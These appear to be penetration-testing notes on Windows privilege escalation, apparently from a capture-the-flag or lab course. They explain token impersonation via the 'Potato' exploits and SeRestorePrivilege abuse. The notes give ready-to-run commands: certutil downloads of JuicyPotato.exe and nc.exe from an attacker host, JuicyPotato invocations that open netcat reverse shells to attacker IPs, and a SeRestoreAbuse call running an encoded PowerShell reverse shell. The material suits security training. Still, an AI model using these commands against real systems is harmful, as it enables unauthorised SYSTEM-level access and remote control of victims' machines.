 # Token Impersonation

Service accounts, briefly mentioned in the introduction task, may have a higher privilege level than the low-level user you may have. In Windows versions before Server 2019 and 10 (version 1809), these service accounts are affected by an internal man-in-the-middle vulnerability. As you may know, man-in-the-middle (MitM) attacks are conducted by intercepting network traffic. In a similar fashion, higher privileged service accounts will be forced to authenticate to a local port we listen on. Once the service account attempts to authenticate, this request is modified to negotiate a security token for the "NT AUTHORITY\SYSTEM" account. The security token obtained can be used by the user we have in a process called "impersonation". Although it has led to several exploits, the impersonation rights were not a vulnerability.

`whoami /priv`

Doing further research on token impersonation vulnerabilities, you will see a number of different exploits exist. These have whimsical names such as Hot Potato, Rotten Potato, Lonely Potato, Juicy Potato, etc. You will be able to decide on which "Potato" better suits your need depending on the version of the target system. While some of these exploits will run on the target system, others may require you to set up a fake server on the same network.





We will need to check the list of [CLSID](http://ohpe.it/juicy-potato/CLSID/) to use the exploit.



**Exploit and CLSID list**:

```
https://github.com/ohpe/juicy-potato
```

{% code overflow="wrap" %}
```
certutil.exe -urlcache -f http://10.10.XX.XX/JuicyPotato.exe C:\Temp\JuicyPotato.exe
certutil.exe -urlcache -f http://10.10.XX.XX/nc.exe C:\Temp\nc.exe
JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\inetpub\drupal-7.54\nc.exe -e cmd.exe 10.10.XX.XX 555" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}

or without a CLSID
 .\JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\Users\merlin\Desktop\nc.exe -e cmd.exe 10.10.16.22 5555" -t * 
```
{% endcode %}

## SeRestorePrivilege

check this walk-through here [https://www.youtube.com/watch?v=1nRzABu6eKU](https://www.youtube.com/watch?v=1nRzABu6eKU) and use this tool [https://github.com/xct/SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)&#x20;

Encode PS reverse oneliner to UTF-16LE + base64

```
.\SeRestoreAbuse.exe "cmd /c powershell -exec bypass -enc <base64 encoded reverse shell here>"
```

